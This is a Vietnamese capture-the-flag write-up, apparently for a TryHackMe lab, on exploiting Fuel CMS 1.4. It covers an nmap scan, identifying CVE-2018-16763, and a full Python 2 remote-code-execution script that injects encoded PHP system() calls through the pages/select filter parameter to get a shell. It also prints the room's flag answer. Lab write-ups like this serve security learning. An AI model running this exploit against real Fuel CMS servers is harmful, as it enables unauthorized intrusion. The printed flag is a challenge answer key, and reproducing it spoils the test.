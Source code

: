 ![Screenshot 2024-02-23 235932](https://hackmd.io/_uploads/BkfUyLUnT.png)

Sau khi Start Machine , ta được cung cấp một IP address , sử dụng Nmap quét đơn giản  mục tiêu: `nmap 10.10.102.197`
![Screenshot 2024-02-24 000214](https://hackmd.io/_uploads/ryt2k8L2p.png)

Máy chủ mục tiêu đang chạy 2 dịch vụ là ssh và http trên các cổng tiêu chuẩn.Truy cập qua browser ta được một trang web: 
![Screenshot 2024-02-24 000429](https://hackmd.io/_uploads/Hy44lILhT.png)

Let Answer the Questions!
1. *What is the name of the application running on the vulnerable machine?*

Như ảnh bên trên ta thấy được name của application!
*Answer: Fuel CMS* (một hệ thống quản trị nội dung mã nguồn mở)

2. *What is the version number of this application?*

*Answer: 1.4*

3. *What is the number of the CVE that allows an attacker to remotely execute code on this application?*

Các cơ sở dữ liệu về lỗ hổng phổ biến như [exploit-db](https://www.exploit-db.com/), thử tìm kiếm về Fuel CMS : 
![Screenshot 2024-02-24 001231](https://hackmd.io/_uploads/HJ6ifI8n6.png)
Ta có thể thấy một vài vul được report , xem một trong các report về RCE , ta được cùng một mã CVE là CVE-2018-16763 
![Screenshot 2024-02-24 001753](https://hackmd.io/_uploads/ryNOQ8U2T.png)
*Answer: CVE-2018-16763*

4. *What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.*
Sử dụng payload khai thác trên report này: 
```
import requests
import urllib

url = "http://10.10.102.197"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}// thay bằng IP của VM 
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
            
```
On Linux, thực hiện tạo file `exploit.py` để lưu trữ và chạy payload viết bằng python trên: 
![Screenshot 2024-02-24 002121](https://hackmd.io/_uploads/ryePEIL3T.png)
![Screenshot 2024-02-24 002139](https://hackmd.io/_uploads/rkmDVLU36.png)
Do payload sử dụng cú pháp của python2
Chạy lệnh khai thác sau : `python2 exploit.py -u http://10.10.102.197`
And bunmmm , i get a shell , sau khi thực thi một vài lệnh ta thu được flag!

*Answer: THM{ACKME_BLOG_HACKED}*



